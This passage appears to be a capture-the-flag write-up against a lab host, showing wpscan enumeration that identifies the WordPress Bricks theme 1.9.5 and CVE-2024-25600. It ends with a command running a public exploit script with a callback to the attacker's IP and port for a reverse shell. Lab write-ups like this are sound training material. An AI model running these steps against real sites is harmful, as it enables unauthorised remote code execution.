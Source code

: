 
## 2. WordPress Enumeration

### Directory and File Enumeration

Began by analyzing `/robots.txt`, which revealed a disallowed `/wp-admin/` directory—an indicator of a WordPress installation. To enumerate plugins, themes, and potential vulnerabilities, ran `wpscan` against the target:

```bash
wpscan --url https://bricks.thm --disable-tls-checks
```

**Why this step was important:**  
Identifying the active WordPress theme and its version is crucial for vulnerability assessment. `wpscan` detected the "Bricks" theme in use:

```
[+] WordPress theme in use: bricks
 | Location: https://bricks.thm/wp-content/themes/bricks/
 | Readme: https://bricks.thm/wp-content/themes/bricks/readme.txt
 | Style URL: https://bricks.thm/wp-content/themes/bricks/style.css
 | Style Name: Bricks
 | Style URI: https://bricksbuilder.io/
 | Description: Visual website builder for WordPress....
 | Author: Bricks
 | Author URI: https://bricksbuilder.io/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.9.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'
```

By confirming the theme and version, I could research known vulnerabilities (such as CVE-2024-25600) specific to "Bricks" 1.9.5. This targeted approach increases the likelihood of successful exploitation and reduces noise from irrelevant findings.

**Key Discovery:** WordPress theme vulnerability (CVE-2024-25600).

---

## 3. Exploitation

### Exploiting WordPress Theme Vulnerability

Cloned a public repository containing an exploit script for CVE-2024-25600. Executed the script to gain a reverse shell:

```bash
python3 CVE-2024-25600.py --url https://bricks.thm --callback [YOUR_IP]:[YOUR_PORT]
```
